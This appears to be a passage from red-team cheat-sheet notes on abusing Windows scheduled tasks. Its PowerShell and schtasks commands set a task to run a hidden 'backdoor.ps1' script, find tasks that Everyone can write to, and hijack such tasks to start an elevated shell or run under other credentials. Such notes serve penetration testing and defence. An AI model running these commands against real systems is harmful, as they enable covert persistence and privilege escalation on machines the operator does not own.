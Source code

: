 #### Modify an Existing Scheduled Task
- Modify a Scheduled Task: You can modify an existing scheduled task's action, trigger, or other properties. In this case, the task action is modified to run a hidden PowerShell script.
	```powershell
	Set-ScheduledTask -TaskName "MyPersistentTask" -Action (New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-NoProfile -WindowStyle Hidden -Command C:\Temp\backdoor.ps1")
	```

#### Delete a Scheduled Task
- Unregister a Scheduled Task: Remove the task from the system.
    ```powershell
    Unregister-ScheduledTask -TaskName "MyPersistentTask" -Confirm:$false
    ```

#### Exploiting Writable Scheduled Tasks

1. Identify Writable Scheduled Tasks:  
   Finds scheduled tasks where non-administrative users, like "Everyone", have writable permissions, making them vulnerable.
	```powershell
	Get-ScheduledTask | ForEach-Object { 
		$task = $_.TaskName
		Get-Acl -Path "C:\Windows\System32\Tasks\$task" | Where-Object { $_.AccessToString -like "*Everyone Allow FullControl*" } 
	} | Out-File "C:\Path\To\Outfile.txt"
	```

2. Exploit Writable Scheduled Task:  
   If a scheduled task has writable permissions, you can alter it to run an elevated PowerShell session.
	```powershell
	schtasks /Change /TN "<TaskName>" /TR "powershell -Command \"Start-Process PowerShell -Verb RunAs\""
	```

3. Change User Running a Task (Requires Admin Privileges):  
   This command changes the user running the task to a new user with provided credentials.
	```powershell
	schtasks /change /tn "<task_name>" /ru "<new_user>" /rp "<new_password>"
	```

#### Change Task Ownership or Credentials
- Change the User Running a Scheduled Task: Modify the user account under which a task is running. Requires administrative privileges.
    ```powershell
    schtasks /change /tn <task_name> /ru <new_user> /rp <new_password>
    ```

#### Scheduled Tasks Payload Examples
- [[Windows Targeting - Scheduled Tasks]]

# Windows Registry
